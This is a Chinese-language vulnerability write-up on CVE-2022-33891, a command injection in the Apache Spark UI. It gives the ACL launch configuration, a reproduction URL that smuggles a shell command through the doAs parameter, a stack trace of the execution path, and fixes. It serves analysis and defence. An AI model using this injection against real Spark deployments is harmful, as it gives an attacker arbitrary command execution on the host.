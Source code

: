 ## CVE-2022-33891 Apache Spark shell command injection

### 前言



漏洞公告：https://lists.apache.org/thread/p847l3kopoo5bjtmxrcwk21xp6tjxqlc

影响版本：Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1



---

### 漏洞分析

漏洞修复commit  https://github.com/apache/spark/pull/36315/files ，从commit中不能发现将username直接拼接到命令执行的参数集合中，没有做任何的处理，导致命令执行漏洞。

![image-20220719165638309](https://img.sumsec.me/202207/202207191656487.png)



从公告的描述中能够发现是需要开启acl功能

> Severity: important
>
> Description:
>
> The Apache Spark UI offers the possibility to enable ACLs via the
> configuration option spark.acls.enable. With an authentication filter, this
> checks whether a user has access permissions to view or modify the
> application. If ACLs are enabled, a code path in HttpSecurityFilter can
> allow someone to perform impersonation by providing an arbitrary user name.
> A malicious user might then be able to reach a permission check function
> that will ultimately build a Unix shell command based on their input, and
> execute it. This will result in arbitrary shell command execution as the
> user Spark is currently running as. This affects Apache Spark versions
> 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1.
>
> This issue is being tracked as SPARK-38992
>

开启acl功能是需要在启动Spark时添加相关的acl参数（默认是不启用），具体配置可以参考官方文档：

https://spark.apache.org/docs/3.0.3/security.html



漏洞启动配置如下，最后`[--conf spark.user.groups.mapping=org.apache.spark.security.ShellBasedGroupsMappingProvider]`是可选项，因为不写默认是**ShellBasedGroupsMappingProvider**：

```sh
./spark-shell --conf spark.acls.enable=true --conf spark.ui.port=8090 --conf spark.ui.view.acls=true [--conf spark.user.groups.mapping=org.apache.spark.security.ShellBasedGroupsMappingProvider]
```



---

### 漏洞复现

启动Spark

![image-20220719170920361](https://img.sumsec.me/202207/202207191709417.png)



访问

``` http
http://172.20.16.60:8090/?doAs=`open%20-na%20Calculator`
```

![image-20220719171537728](https://img.sumsec.me/202207/202207191715767.png)



---

### 漏洞分析



报错堆栈中可以发现漏洞的执行路径

```java
org.apache.spark.SparkException: Process List(bash, -c, id -Gn 'open Calculator') exited with code 1
	at org.apache.spark.util.Utils$.executeAndGetOutput(Utils.scala:1270)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getUnixGroups(ShellBasedGroupsMappingProvider.scala:43)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups(ShellBasedGroupsMappingProvider.scala:34)
	at org.apache.spark.util.Utils$.getCurrentUserGroups(Utils.scala:2427)
	at org.apache.spark.SecurityManager.isUserInACL(SecurityManager.scala:381)
	at org.apache.spark.SecurityManager.checkUIViewPermissions(SecurityManager.scala:238)
	at org.apache.spark.ui.HttpSecurityFilter.doFilter(HttpSecurityFilter.scala:71)
	at org.sparkproject.jetty.servlet.FilterHolder.doFilter(FilterHolder.java:193)
	at org.sparkproject.jetty.servlet.ServletHandler$Chain.doFilter(ServletHandler.java:1601)
	at org.sparkproject.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:548)
	at org.sparkproject.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:233)
	at org.sparkproject.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1435)
	at org.sparkproject.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:188)
	at org.sparkproject.jetty.servlet.ServletHandler.doScope(ServletHandler.java:501)
	at org.sparkproject.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:186)
	at org.sparkproject.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1350)
	at org.sparkproject.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:141)
	at org.sparkproject.jetty.server.handler.gzip.GzipHandler.handle(GzipHandler.java:763)
	at org.sparkproject.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:234)
	at org.sparkproject.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:127)
	at org.sparkproject.jetty.server.Server.handle(Server.java:516)
	at org.sparkproject.jetty.server.HttpChannel.lambda$handle$1(HttpChannel.java:388)
	at org.sparkproject.jetty.server.HttpChannel.dispatch(HttpChannel.java:633)
	at org.sparkproject.jetty.server.HttpChannel.handle(HttpChannel.java:380)
	at org.sparkproject.jetty.server.HttpConnection.onFillable(HttpConnection.java:277)
	at org.sparkproject.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:311)
	at org.sparkproject.jetty.io.FillInterest.fillable(FillInterest.java:105)
	at org.sparkproject.jetty.io.ChannelEndPoint$1.run(ChannelEndPoint.java:104)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.runTask(EatWhatYouKill.java:336)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.doProduce(EatWhatYouKill.java:313)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.tryProduce(EatWhatYouKill.java:171)
	at org.sparkproject.jetty.util.thread.strategy.EatWhatYouKill.run(EatWhatYouKill.java:129)
	at org.sparkproject.jetty.util.thread.ReservedThreadExecutor$ReservedThread.run(ReservedThreadExecutor.java:383)
	at org.sparkproject.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:882)
	at org.sparkproject.jetty.util.thread.QueuedThreadPool$Runner.run(QueuedThreadPool.java:1036)
	at java.base/java.lang.Thread.run(Thread.java:834)
```

可以直接忽视jetty层面的执行流程，直接看spark的执行过程。

``` 
org.apache.spark.SparkException: Process List(bash, -c, id -Gn 'open Calculator') exited with code 1
	at org.apache.spark.util.Utils$.executeAndGetOutput(Utils.scala:1270)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getUnixGroups(ShellBasedGroupsMappingProvider.scala:43)
	at org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups(ShellBasedGroupsMappingProvider.scala:34)
	at org.apache.spark.util.Utils$.getCurrentUserGroups(Utils.scala:2427)
	at org.apache.spark.SecurityManager.isUserInACL(SecurityManager.scala:381)
	at org.apache.spark.SecurityManager.checkUIViewPermissions(SecurityManager.scala:238)
	at org.apache.spark.ui.HttpSecurityFilter.doFilter(HttpSecurityFilter.scala:71)
```



在`org.apache.spark.ui.HttpSecurityFilter#doFilter`方法中，可以发现将参数**doAs**传入**org.apache.spark.SecurityManager.checkUIViewPermissions**方法中

![image-20220719172826631](https://img.sumsec.me/202207/202207191728700.png)

在checkAdminPermissions方法传入到**isUserInACL**方法

![image-20220719172949337](https://img.sumsec.me/202207/202207191729396.png)

在isUserInACL方法调用了**org.apache.spark.util.Utils$.getCurrentUserGroups**

![image-20220719173010936](https://img.sumsec.me/202207/202207191730997.png)

在getCurrentUserGroups方法中将username传入到**org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups**方法

![image-20220719173124441](https://img.sumsec.me/202207/202207191731473.png)

然后传入到**org.apache.spark.security.ShellBasedGroupsMappingProvider.getGroups**方法，最终执行传入参数的命令。

![image-20220719173318600](https://img.sumsec.me/202207/202207191733672.png)



---

### 漏洞流程

![image-20220719174725821](https://img.sumsec.me/202207/202207191752599.png)







---

### 漏洞修复方案

1. 升级到最新版本

2. 如果开启了acl功能，关闭即可

3. 如果一定需要acl功能需要可以自定义`spark.user.groups.mapping`

    在`org.apache.spark.security.ShellBasedGroupsMappingProvider` 中添加命令执行过滤操作。



---



### 参考

* https://spark.apache.org/docs/3.0.3/security.html
* https://y4tacker.github.io/
* https://github.com/apache/spark/pull/36315/files
* https://lists.apache.org/thread/p847l3kopoo5bjtmxrcwk21xp6tjxqlc
